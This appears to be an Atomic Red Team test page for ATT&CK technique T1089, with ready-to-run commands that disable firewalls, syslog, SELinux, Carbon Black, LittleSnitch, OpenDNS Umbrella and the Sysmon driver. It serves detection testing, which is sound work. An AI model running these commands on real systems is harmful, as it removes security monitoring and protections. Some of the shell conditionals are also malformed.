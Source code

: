 # T1089 - Disabling Security Tools
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
<blockquote>Adversaries may disable security tools to avoid possible detection of their tools and activities. This can take the form of killing security software or event logging processes, deleting Registry keys so that tools do not start at run time, or other methods to interfere with security scanning or event reporting.

Detection: Monitor processes and command-line arguments to see if security tools are killed or stop running. Monitor Registry edits for modifications to services and startup programs that correspond to security tools. Lack of log or event file reporting may be suspicious.

Platforms: Linux, macOS, Windows

Data Sources: API monitoring, Anti-virus, File monitoring, Services, Windows Registry, Process command-line parameters

Defense Bypassed: Anti-virus, File monitoring, Host intrusion prevention systems, Signature-based detection, Log analysis</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)

- [Atomic Test #5 - Disable Carbon Black Response](#atomic-test-5---disable-carbon-black-response)

- [Atomic Test #6 - Disable LittleSnitch](#atomic-test-6---disable-littlesnitch)

- [Atomic Test #7 - Disable OpenDNS Umbrella](#atomic-test-7---disable-opendns-umbrella)

- [Atomic Test #8 - Unload Sysmon Filter Driver](#atomic-test-8---unload-sysmon-filter-driver)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi
```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi
```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** Linux


#### Run it with `sh`!
```
setenforce 0
```
<br/>
<br/>

## Atomic Test #5 - Disable Carbon Black Response
Disables Carbon Black Response

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/com.carbonblack.daemon.plist
```
<br/>
<br/>

## Atomic Test #6 - Disable LittleSnitch
Disables LittleSnitch

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/at.obdev.littlesnitchd.plist
```
<br/>
<br/>

## Atomic Test #7 - Disable OpenDNS Umbrella
Disables OpenDNS Umbrella

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/com.opendns.osx.RoamingClientConfigUpdater.plist
```
<br/>
<br/>

## Atomic Test #8 - Unload Sysmon Filter Driver
Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. 

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|

#### Run it with `command_prompt`!
```
fltmc.exe unload #{sysmon_driver}
```
<br/>
